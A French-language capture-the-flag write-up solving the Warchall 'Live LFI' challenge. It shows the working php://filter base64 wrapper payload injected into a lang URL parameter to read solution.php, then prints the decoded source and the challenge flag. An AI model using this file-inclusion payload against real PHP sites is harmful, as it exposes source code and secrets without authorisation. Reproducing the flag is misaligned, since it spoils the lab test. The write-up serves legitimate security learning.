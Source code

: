 # Live RFI
Cette fois Live LFI Local File Inclusion, il y a des méthodes d'attaque de base NULL Byte Injection et path,
mais parmi les attaques appliquées, il y a une méthode d'attaque utilisant PHP Wrapper. Dans le cas de Warchall : Live LFI,
vous pouvez utiliser PHP Wrapper pour accéder au fichier en utilisant php://filter/convert.base64-encode/resource=solution.php

Le code "php://filter/convert.base64-encode/resource=solution.php" est une fonctionnalité de PHP qui permet de lire le contenu d'un fichier et de le convertir en base64.
Cela signifie que le contenu du fichier **solution.php** sera encodé en base64 avant d'être retourné.

En d'autres termes, si ce code est utilisé dans un contexte où une URL ou un chemin de fichier est attendu,
il peut être utilisé pour lire le contenu du fichier "solution.php" et le retourner sous forme encodée en base64.
Cela peut être utilisé pour contourner certaines restrictions d'accès aux fichiers ou pour manipuler le contenu des fichiers de manière non autorisée.

Etape à suivre : 
1 - Allez dans le lien LFI (Local File Inclusion) principale => [LFI](https://lfi.warchall.net/)
2 - Cliquer sur le logo de langue (choix de langue) => exemple : [LFI (langue)](https://lfi.warchall.net/index.php?lang=en)
3 - Effacer "en" et remplacer par la methode d'attaque PHP Wrapper => (https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php)
4 - après, il donne des plusieur code à decoder : **PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K**
5 - Après decodage enligne sur [base64decode](https://www.base64decode.org/) => 

````sh<html>
<body>
<pre style="color:#000;">teh falg si naer!</pre>
<pre style="color:#fff;">the flag is near!</pre>
</body>
</html>
<?php                  #   YOUR_TROPHY 
return 'SteppinStones42Pie'; # <-´ ?>
````
 Solution : **SteppinStones42Pie**
